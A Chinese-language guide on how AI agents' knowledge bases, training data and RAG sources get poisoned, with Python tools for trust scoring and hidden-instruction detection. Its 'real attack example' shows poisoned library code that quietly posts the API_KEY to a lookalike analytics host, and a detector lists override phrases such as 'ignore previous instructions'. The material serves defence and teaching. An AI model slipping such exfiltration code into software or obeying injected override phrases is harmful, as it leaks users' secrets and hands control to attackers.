

# 内容污染鉴别

> 当信息可以被 AI 批量制造，如何辨别内容的真实性和安全性？

---

## 什么是内容污染

内容污染（Content Pollution）是指**攻击者通过注入虚假、恶意或误导性内容，污染知识库、训练数据或搜索结果，从而影响 AI Agent 的输出和决策**。

### 污染类型

| 类型 | 描述 | 影响 |
|------|------|------|
| **知识库污染** | 在 Agent 的知识库中注入误导信息 | Agent 给出错误答案 |
| **训练数据投毒** | 在训练数据中植入后门模式 | 模型行为异常 |
| **搜索结果污染** | SEO 投毒、垃圾内容 | Agent 获取被污染信息 |
| **引用污染** | 伪造的论文/文档/代码 | 错误的来源引用 |
| **RAG 污染** | 在检索文档中嵌入恶意指令 | Prompt 注入（间接） |

---

## RAG 污染（最常见的 Agent 威胁）

RAG（Retrieval-Augmented Generation）是当前 AI Agent 获取知识的主要方式，也是最容易被污染的环节。

### 攻击流程



### 真实攻击示例：GitHub 代码投毒

```python
# 攻击者在 PyPI/Stack Overflow 上发布的"解决方案"

# 看似正常的代码
def get_user_data(user_id):
    """
    获取用户数据的安全函数
    使用参数化查询防止 SQL 注入
    
    注意：需要在环境变量中设置 API_KEY
    """
    import os
    
    # 这行代码看起来很无辜，但其实是攻击的一部分
    if os.environ.get('ENV') == 'production':
        # 生产环境使用缓存
        _warmup_cache()  # 这一行是隐藏的恶意调用
    
    return _query_database(user_id)

# 隐藏的恶意函数
def _warmup_cache():
    import requests
    # 执行隐藏在注释中的命令
    # eval(base64_decode("aW1wb3J0IG9zOyBvcy5zeXN0ZW0oJ2N1cmwg..."))
    
    # 或者通过看似正常的 API 调用泄露数据
    requests.post(
        'https://cdn-analytics.trusted-look.com/track',
        json={'data': os.environ.get('API_KEY', '')}
    )
```

---

## 检测内容污染

### 1. 源可信度评估

```python
from typing import List, Dict
import re
from datetime import datetime

class ContentTrustChecker:
    """内容可信度检查器"""
    
    def __init__(self):
        self.trusted_domains = {
            'high': [
                'github.com', 'gitlab.com',  # 公开代码仓库
                'arxiv.org', 'scholar.google.com',  # 学术
                'owasp.org', 'mitre.org',  # 安全标准
                'docs.python.org', 'developer.mozilla.org',  # 官方文档
            ],
            'medium': [
                'medium.com', 'dev.to',  # 技术博客
                'stackoverflow.com',  # Q&A
                'reddit.com',  # 社区
            ],
            'low': [
                'baidu.com',  # 百度（内容质量参差不齐）
                'csdn.net',  # CSDN（大量重复/机器生成内容）
            ]
        }
    
    def assess_source(self, url: str, content: str) -> Dict:
        """评估内容来源的可信度"""
        from urllib.parse import urlparse
        
        parsed = urlparse(url)
        domain = parsed.hostname or ''
        
        # 1. 域名可信度
        trust_level = 'unknown'
        for level, domains in self.trusted_domains.items():
            if any(d in domain for d in domains):
                trust_level = level
                break
        
        # 2. 内容质量检查
        quality_signals = {
            'has_date': bool(re.search(r'\d{4}[-/]\d{1,2}[-/]\d{1,2}', content)),
            'has_author': bool(re.search(r'(作者|Author|By)[：:]\s*\S+', content)),
            'has_references': bool(re.search(r'(参考|Reference|Source)[：:]\s*\S+', content)),
            'is_long_enough': len(content) > 500,
            'has_code_blocks': '```' in content,
        }
        
        quality_score = sum(1 for v in quality_signals.values() if v) / len(quality_signals)
        
        return {
            'domain': domain,
            'trust_level': trust_level,
            'quality_score': quality_score,
            'quality_signals': quality_signals,
            'verdict': '可信' if trust_level == 'high' and quality_score > 0.6 else \
                      '需要核实' if quality_score > 0.3 else \
                      '不可信'
        }
```

### 2. 隐藏指令检测

```python
class HiddenInstructionDetector:
    """检测文档中的隐藏指令（间接 Prompt 注入）"""
    
    def __init__(self):
        self.hidden_patterns = [
            # 注释中的指令
            (r'<!--.*?(ignore|override|泄露|不要|必须).*?-->', 'HTML注释指令'),
            # 代码注释中的指令
            (r'#.*?(忽略|覆盖|override|ignore|secret|exec)', '代码注释指令'),
            # Markdown 隐藏文本
            (r'\[//\]:\s*#.*?(ignore|override|泄露)', 'Markdown隐藏注释'),
            # 白字/透明文字（视觉隐藏）
            (r'<span[^>]*style="[^"]*(display:\s*none|visibility:\s*hidden|opacity:\s*0|color:\s*white)[^"]*"[^>]*>', '视觉隐藏文本'),
            # Base64 编码的指令
            (r'[A-Za-z0-9+/]{40,}={0,2}', '可能的编码数据（需解码检查）'),
            # 零宽字符注入
            (r'[\u200b\u200c\u200d\u2060\u2061\u2062\u2063\u2064]', '零宽字符注入'),
        ]
    
    def scan(self, content: str) -> List[Dict]:
        """扫描内容中的隐藏指令"""
        findings = []
        
        for pattern, description in self.hidden_patterns:
            matches = re.findall(pattern, content)
            if matches:
                findings.append({
                    'type': description,
                    'count': len(matches),
                    'position': content.index(matches[0]) if isinstance(matches[0], str) else 0
                })
        
        return findings
    
    def check_for_suspicious_instructions(self, content: str) -> bool:
        """检查内容中是否包含可疑的 Agent 指令"""
        suspicious_keywords = [
            'ignore previous instructions',
            '忽略之前', 'override system prompt', 'forget your instructions',
            'you are now', '从现在开始', '新的指令', '新的规则',
            '输出你的', 'tell me your system', '泄露你的',
            'send this to', '转发给', 'connect to',
            'execute', '运行', '执行',
        ]
        
        for keyword in suspicious_keywords:
            if keyword.lower() in content.lower():
                return True
        
        return False
```

### 3. 事实一致性验证

```python
class FactConsistencyValidator:
    """事实一致性验证"""
    
    def validate_claims(self, content: str) -> List[Dict]:
        """验证内容中的可查证声明"""
        claims = []
        
        # 提取数字声明
        number_claims = re.findall(r'(\d{1,3}(?:,\d{3})*(?:\.\d+)?%|\d+[\s]*(?:万|亿|百万|千))', content)
        for claim in number_claims:
            claims.append({
                'type': 'numeric',
                'claim': claim,
                'verification': self._verify_numeric_claim(claim)
            })
        
        # 提取日期声明
        date_claims = re.findall(r'(\d{4}\s*年|\d{4}[-/]\d{1,2}[-/]\d{1,2})', content)
        for claim in date_claims:
            claims.append({
                'type': 'date',
                'claim': claim,
                'verification': self._verify_date_claim(claim)
            })
        
        # 提取技术主张
        tech_patterns = [
            r'(影响|涉及|占比)\s*\S+\s*(用户|企业|系统)',
            r'(漏洞|攻击|事件)[：:]\s*\S+',
            r'(修复|解决|处理)\s*\S+',
        ]
        for pattern in tech_patterns:
            matches = re.findall(pattern, content)
            for match in matches[:5]:
                claims.append({
                    'type': 'technical',
                    'claim': match,
                    'verification': '建议查阅原始来源验证'
                })
        
        return claims
```

---

## Agent 防御策略

### 1. 检索结果验证

```python
class RAGContentFilter:
    """RAG 内容过滤器"""
    
    def __init__(self):
        self.detector = HiddenInstructionDetector()
        self.trust_checker = ContentTrustChecker()
    
    def should_use_content(self, content: str, source_url: str) -> Dict:
        """判断是否应该使用该内容"""
        
        # 1. 检查隐藏指令
        hidden = self.detector.scan(content)
        if hidden:
            return {
                'use': False,
                'reason': f'检测到 {len(hidden)} 处隐藏指令',
                'details': hidden
            }
        
        # 2. 检查可疑指令
        if self.detector.check_for_suspicious_instructions(content):
            return {
                'use': False,
                'reason': '内容包含可疑的 Agent 指令'
            }
        
        # 3. 评估来源可信度
        source_check = self.trust_checker.assess_source(source_url, content)
        if source_check['verdict'] == '不可信':
            return {
                'use': False,
                'reason': f'来源不可信: {source_url}'
            }
        
        return {'use': True}
```

### 2. 内容隔离策略

```python
# 对不同来源的内容分层处理

CONTENT_TRUST_LEVELS = {
    'system': {
        'description': '系统内置内容和 Skill 知识',
        'trust': 'absolute',
        'action': '直接使用'
    },
    'user_provided': {
        'description': '用户直接上传的文档',
        'trust': 'high',
        'action': '使用，但验证来源'
    },
    'rag_external': {
        'description': '从外部网站检索的内容',
        'trust': 'variable',
        'action': '先检查再使用'
    },
    'web_scraped': {
        'description': '网页抓取内容',
        'trust': 'low',
        'action': '严格检查，限制影响范围'
    }
}
```

---

## 通用鉴别清单

### 面对任何内容时问自己：

- [ ] 来源可信度如何？有没有官方/权威来源？
- [ ] 内容是否有明确的发布者和发布日期？
- [ ] 是否引用了可验证的原始来源？
- [ ] 内容中的数字/统计数据是否合理？
- [ ] 有没有隐藏的指令或注释？
- [ ] 内容是否有明显的利益偏向？
- [ ] 和其他可信来源的说法是否一致？

---

## 延伸阅读

1. [OWASP LLM Data Poisoning](https://genai.owasp.org/llm-top-10/)
2. [NIST AI Risk Management Framework](https://www.nist.gov/ai-risks)
3. [Prompt Injection in RAG Systems — Simon Willison](https://simonwillison.net/2023/Apr/14/worst-prompt-injection/)
4. [Trusted Source Verification — CISA](https://www.cisa.gov/resources-tools/resources/trusted-information)
5. [SEO Poisoning — MITRE ATT&CK](https://attack.mitre.org/techniques/T1608/004/)
